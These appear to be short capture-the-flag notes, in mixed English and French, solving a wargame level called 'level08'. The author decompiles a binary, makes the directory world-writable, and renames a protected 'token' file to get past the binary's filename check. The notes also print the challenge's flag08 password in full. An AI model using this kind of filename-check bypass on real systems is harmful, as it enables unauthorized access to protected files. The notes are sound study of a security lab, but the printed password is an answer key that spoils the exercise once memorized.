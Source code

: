 # cmd
* ``ls``
    * 2 objs : 1 binary level08 + 1 file token
* ``cat token``
    * ``cat: token: Permission denied``
* ``./level08``
    * ``./level08 [file to read]``
* ``./level08 token``
    * ``You may not access 'token'`` -> no surprise
    Let's make level08 think I have the access ?
* dogbolt -> level08.c
* ``echo pouet>/tmp/bouh`` + ``./level08 /tmp/bouh``
    * ``pouet``
* peut pas ``cp`` ni ``mv`` token dans tmp....
* rip ``sudo``...
    Let's rename token in ordoer to pass if l178 in level08.c
* ``chmod +r token``
    * ``chmod: changing permissions of `token': Operation not permitted``
* ``chmod 777 .``
    J'y crois pas ca marche
* ``mv token bouh``
* ``./level08 bouh``
* ``su flag08`` + ``quif5eloekouj29ke0vouxean`` as psw
* ``getflag``